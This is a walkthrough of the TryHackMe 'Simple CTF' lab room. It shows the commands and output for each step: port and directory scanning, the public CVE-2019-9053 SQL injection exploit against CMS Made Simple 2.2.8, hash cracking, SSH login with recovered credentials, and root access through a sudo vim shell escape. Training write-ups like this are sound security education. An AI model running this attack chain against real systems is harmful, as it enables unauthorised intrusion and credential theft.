# Simple-CTF-Writeup
Professional TryHackMe Simple CTF walkthrough covering enumeration, CMS Made Simple SQL Injection (CVE-2019-9053), credential recovery, SSH access, privilege escalation via Vim, and root compromise.
# TryHackMe - Simple CTF Writeup

> A complete walkthrough of the **Simple CTF** room on TryHackMe, covering reconnaissance, enumeration, exploitation, credential recovery, privilege escalation, and flag capture.

---

# Room Information

| Field      | Value                                         |
| ---------- | --------------------------------------------- |
| Platform   | TryHackMe                                     |
| Room Name  | Simple CTF                                    |
| Difficulty | Easy                                          |
| Category   | Web Exploitation & Linux Privilege Escalation |
| Author     | Saahil Gupta (ImperialX1104)                  |

---

# Objective

The goal of this room is to:

* Enumerate the target machine
* Discover hidden services and applications
* Exploit a vulnerable CMS
* Recover credentials
* Gain SSH access
* Escalate privileges to root
* Capture both flags

---

# Attack Overview

```text
Host Discovery
      │
      ▼
Port Enumeration
      │
      ▼
Directory Enumeration
      │
      ▼
CMS Discovery
      │
      ▼
Version Identification
      │
      ▼
SQL Injection (CVE-2019-9053)
      │
      ▼
Credential Extraction
      │
      ▼
Password Cracking
      │
      ▼
SSH Access
      │
      ▼
User Flag
      │
      ▼
Privilege Escalation
      │
      ▼
Root Flag
```

---

# Reconnaissance

## Host Discovery

The first step was verifying connectivity with the target machine.

### Command

```bash
ping 10.49.175.174
```

### Result

The host responded successfully, confirming that it was reachable.

### Screenshot 

 

---

# Port Enumeration

A comprehensive Nmap scan was performed to identify exposed services.

### Command

```bash
nmap -A -v 10.49.175.174
```

### Results

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 21   | FTP     | vsftpd 3.0.3  |
| 80   | HTTP    | Apache 2.4.18 |
| 2222 | SSH     | OpenSSH 7.2p2 |

### Notable Findings

* Anonymous FTP login enabled
* Apache web server running
* SSH exposed on port 2222
* robots.txt file discovered

### Screenshot 



---

# Web Enumeration

Navigating to the target web server displayed the default Apache landing page.

### URL

```text
http://10.49.175.174
```

### Screenshot



At this stage no obvious attack surface was visible.

---

# Directory Enumeration

To identify hidden resources, directory brute forcing was performed using FFUF.

### Command

```bash
ffuf -u http://10.49.175.174/FUZZ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
-fc 200
```

### Results

```text
simple [Status: 301]
```

### Screenshot 



A directory named **/simple** was discovered.

---

# CMS Discovery

Browsing to the discovered directory revealed a CMS installation.

### URL

```text
http://10.49.175.174/simple
```

### Screenshot 

 

### CMS Identified

```text
CMS Made Simple 2.2.8
```

The version number would later prove critical.

---

# Vulnerability Research

The CMS version was researched using SearchSploit.

### Command

```bash
searchsploit "CMS Made Simple"
```

### Result

```text
CMS Made Simple < 2.2.10 - SQL Injection
```

### Screenshot 

 

A known SQL Injection vulnerability was identified.

---

# Exploit Acquisition

The exploit was copied locally for analysis and execution.

### Command

```bash
searchsploit -m 46635
```

### Output

```text
CMS Made Simple < 2.2.10 - SQL Injection
CVE-2019-9053
```

### Screenshot 

 

---

# Exploitation

The publicly available exploit was executed against the target CMS instance.

### Command

```bash
python3 exploit.py \
-u http://10.49.175.174/simple/ \
--crack \
-w /usr/share/wordlists/rockyou.txt
```

---

# Credential Extraction

The exploit successfully extracted information from the backend database.

### Output

```text
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
```

### Screenshot 

 

### Information Recovered

| Item     | Value                                     |
| -------- | ----------------------------------------- |
| Username | mitch                                     |
| Email    | [admin@admin.com](mailto:admin@admin.com) |
| Salt     | 1dac0d92e9fa6bb2                          |

---

# Password Cracking

The extracted hash was cracked using Hashcat.

### Command

```bash
hashcat -m 20 hash.txt --show
```

### Output

```text
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```

### Credentials Recovered

| Field    | Value  |
| -------- | ------ |
| Username | mitch  |
| Password | secret |

### Screenshot 



---

# Initial Access

The recovered credentials were tested against the SSH service.

### Command

```bash
ssh mitch@10.49.175.174 -p 2222
```

### Password

```text
secret
```

### Result

```text
Welcome to Ubuntu 16.04.6 LTS
```

### Screenshot 



Successful authentication provided shell access as user **mitch**.

---

# User Flag

After gaining access, the user flag was located in Mitch's home directory.

### Commands

```bash
whoami
cd ~
cat user.txt
```

### Output

```text
G00d j0b, keep up!
```

### Screenshot 



---

# Privilege Escalation

## Sudo Enumeration

Checking sudo permissions revealed an interesting configuration.

### Command

```bash
sudo -l
```

### Output

```text
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

### Screenshot 



This configuration allows the user to execute Vim with root privileges without supplying a password.

---

## Root Access

Launching Vim as root:

```bash
sudo vim
```

Because Vim was running with elevated privileges, it could be used to access files owned by root.

### Screenshot 



---

# Root Flag

The root flag was located in the root user's directory.

### Command

```vim
:! cat /root/root.txt
```

### Output

```text
W3ll d0n3. You made it!
```
### Screenshot 



---

# Flags Captured

## User Flag

```text
G00d j0b, keep up!
```

## Root Flag

```text
W3ll d0n3. You made it!
```

---

# Attack Chain Summary

```text
Nmap Scan
    ↓
Web Enumeration
    ↓
Directory Discovery (/simple)
    ↓
CMS Made Simple 2.2.8
    ↓
SearchSploit Research
    ↓
CVE-2019-9053 SQL Injection
    ↓
Credential Extraction
    ↓
Hash Cracking
    ↓
SSH Login (mitch:secret)
    ↓
User Flag
    ↓
sudo -l
    ↓
Vim Privilege Escalation
    ↓
Root Flag
```

---

# Lessons Learned

### Enumeration Matters

The vulnerable CMS was not visible on the homepage and required directory enumeration to discover.

### Version Identification Is Critical

Knowing the exact CMS version led directly to a known vulnerability.

### Credential Reuse

Recovered credentials should always be tested against all available services.

### Sudo Misconfigurations Are Dangerous

Allowing privileged execution of editors such as Vim can lead to full system compromise.

---

# Tools Used

* Nmap
* FFUF
* SearchSploit
* Python
* Hashcat
* SSH
* Vim

---

# Conclusion

This room demonstrated a complete attack chain from initial enumeration to full root compromise. By combining web application enumeration, SQL injection exploitation, password cracking, and Linux privilege escalation techniques, full control of the target system was achieved.

The room serves as an excellent introduction to real-world penetration testing methodology and highlights the importance of proper software patching, credential security, and least-privilege access controls.

---

## Author

**Saahil Gupta (ImperialX1104)**

* GitHub: https://github.com/ImperialX1104
* TryHackMe: [ImperialX](https://tryhackme.com/p/HackXPro)

⭐ If you found this writeup useful, consider starring the repository and connecting with me on GitHub.
